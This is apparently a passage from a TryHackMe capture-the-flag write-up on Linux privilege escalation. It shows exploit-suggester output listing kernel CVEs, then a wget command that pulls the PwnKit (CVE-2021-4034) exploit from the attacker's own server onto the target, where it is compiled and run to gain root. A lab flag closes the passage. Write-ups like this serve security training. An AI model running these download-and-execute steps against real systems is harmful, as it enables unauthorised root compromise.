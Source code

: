 ```sh
   Details: http://seclists.org/oss-sec/2015/q2/717
   Exposure: less probable
   Tags: ubuntu=(12.04|14.04){kernel:3.13.0-(2|3|4|5)*-generic},ubuntu=(14.10|15.04){kernel:3.(13|16).0-*-generic}
   Download URL: https://www.exploit-db.com/download/37292

[+] [CVE-2014-5207] fuse_suid

   Details: https://www.exploit-db.com/exploits/34923/
   Exposure: less probable
   Download URL: https://www.exploit-db.com/download/34923

[+] [CVE-2016-0728] keyring

   Details: http://perception-point.io/2016/01/14/analysis-and-exploitation-of-a-linux-kernel-vulnerability-cve-2016-0728/
   Exposure: less probable
   Download URL: https://www.exploit-db.com/download/40003
   Comments: Exploit takes about ~30 minutes to run. Exploit is not reliable, see: https://cyseclabs.com/blog/cve-2016-0728-poc-not-working


```

Trying the dirtycow exploit killed the server. ;-; I  Shouldn't have tried as its not applicable to the current kernel version.

lets try Pwnkit, 

link to the exploit [GITHUB ](https://github.com/berdav/CVE-2021-4034.git)

After cloning it into local directory and using  a python web server we can copy the files into our target system using wget:

```sh
wget -r --no-parent 10.17.47.158/CVE-2021-4034/
```

and  following the commands in the directory.

```sh
make
./cve-2021-4034
```

![](/assets/img/thm/yotr/17.png)

ughh, Successfully rooted.

# FLAG 2

```
THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}
```
